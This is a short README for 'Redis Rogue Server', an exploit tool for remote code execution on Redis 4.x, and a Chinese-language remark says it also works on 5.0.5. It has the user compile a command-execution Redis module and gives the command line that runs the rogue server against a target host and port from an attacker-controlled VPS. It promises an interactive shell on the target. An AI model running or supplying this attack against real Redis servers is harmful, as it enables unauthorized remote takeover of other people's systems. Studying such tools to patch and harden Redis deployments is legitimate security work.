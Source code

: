 # Redis Rogue Server

A exploit for Redis 4.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.5也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
